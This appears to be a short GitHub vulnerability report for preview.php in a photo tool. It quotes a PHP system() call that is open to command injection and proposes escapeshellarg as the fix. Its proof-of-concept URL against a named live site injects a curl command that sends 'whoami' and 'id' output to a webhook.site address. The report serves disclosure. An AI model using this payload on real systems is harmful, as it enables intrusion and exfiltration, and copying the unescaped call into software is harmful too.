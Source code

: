 # Security Policy


## Reporting a Vulnerability

The preview.php file have a commnad injection vuln, you can add an escapeshellarg to prevent it !  

vulnerable code:  
```php
system("/usr/bin/optipng " . $cachePath . " >/dev/null 2>/dev/null");
```


### PoC
![image](https://github.com/user-attachments/assets/707023f8-8c13-4c85-9d01-fa1a7e646a8a)

URL : [https://www.sandcomp.com/sandphoto/preview.php?t=14&c=28&b=blue%20;%20curl%20https://webhook.site/c7cba25c-dc7b-4a19-be47-2ac1c3268450%20--data%20$(whoami%20;%20id)](https://www.sandcomp.com/sandphoto/preview.php?t=14&c=28&b=blue%20;%20curl%20https://webhook.site/c7cba25c-dc7b-4a19-be47-2ac1c3268450%20--data%20$(whoami%20;%20id))

Result : 
![image](https://github.com/user-attachments/assets/8daf21b6-5f28-41f4-b8cc-407e73c7eeef)

